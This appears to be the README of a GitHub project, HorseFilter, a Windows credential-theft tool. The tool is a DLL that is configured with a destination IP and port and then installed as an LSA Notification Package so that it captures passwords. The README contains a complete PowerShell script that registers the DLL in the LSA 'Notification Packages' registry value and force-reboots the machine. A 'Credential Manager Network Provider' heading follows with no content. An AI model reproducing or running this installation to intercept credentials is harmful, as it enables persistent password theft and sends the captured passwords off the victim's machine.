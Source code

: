 # HorseFilter
- i basically wanted to learn how [winfilter](https://github.com/kindtime/winfilter) works so i made this
- update destination port and IP macros in `shared/horsefilter.h`
- update file metadata in `shared/horsefilter.rc`
- i recommend compiling on linux with mingw-w64


## LSA Notification Package
1. place DLL anywhere in PATH
2. append DLL name (no extension) to registry key
3. reboot
```ps1
$DLLName = "horsefilter"

$Path = "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$Value = "Notification Packages"

$Current = Get-ItemProperty -Path $Path -Name $Value
$New = $Current."$Value" + $DLLName

Set-ItemProperty -Path $Path -Name $Value -Value $New
Restart-Computer -Force
```

## Credential Manager Network Provider

